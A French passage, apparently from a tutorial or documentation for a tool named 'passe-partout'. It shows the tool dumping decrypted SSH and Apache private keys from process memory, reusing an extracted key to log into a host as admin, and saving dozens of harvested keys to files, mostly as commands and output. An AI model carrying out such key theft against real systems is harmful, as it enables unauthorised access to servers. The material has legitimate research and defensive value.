 

Sauvegarde de la clé privée déchiffrée dans id_rsa-0.key.
Désormais on peut retirer la clé privée du ssh-agent :


```bash
$ ssh-add -D
All identities removed.
```


Et enfin tester l'authentification avec la clé RSA obtenue précedemment
sachant qu'elle n'est plus protégée par un mot de passe. Les permissions
du fichier myplain.key doivent être 0600.


```bash
$ ssh -2vF /dev/null -i id_rsa-0.key -o "PreferredAuthentications publickey" 192.168.0.1
OpenSSH_4.3p2 Debian-6, OpenSSL 0.9.8e 23 Feb 2007
debug1: Reading configuration data /dev/null
debug1: Connecting to 192.168.0.1 [192.168.0.1] port 22.
debug1: Connection established.
debug1: identity file myplain.key type -1
[...]
debug1: Authentications that can continue: publickey,password
debug1: Next authentication method: publickey
debug1: Trying private key: myplain.key                          <===
debug1: read PEM private key done: type RSA                      <===
debug1: Authentication succeeded (publickey).                    <===
debug1: channel 0: new [client-session]
debug1: Entering interactive session.

Last login: Wed Aug 22 17:16:00 2007 from 192.168.0.51
admin@192.168.0.1:~$
```


et voila :)

## Serveur HTTP Apache

L'extraction des clés sur un processus Apache est beaucoup plus verbeuse :

```bash
  $ ./passe-partout 29960
  Target has pid 29960
  on_signal(17 - SIGCHLD) from 29960
  [-] invalid DSA key.
  [-] invalid DSA key.
  [...]
  [-] unable to check key.
  [-] unable to check key.
  [X] Valid DSA key found.
  [X] Key saved to file id_dsa-0.key
  [-] unable to check key.
  [...]
  [X] Valid DSA key found.
  [X] Key saved to file id_dsa-26.key
  [...]
  [X] Valid RSA key found.
  [X] Key saved to file id_rsa-0.key
  [...]
  [X] Valid RSA key found.
  [X] Key saved to file id_rsa-2.key
  [-] invalid DSA key.
  [-] invalid DSA key.
  [-] invalid DSA key.
  [-] invalid DSA key.
```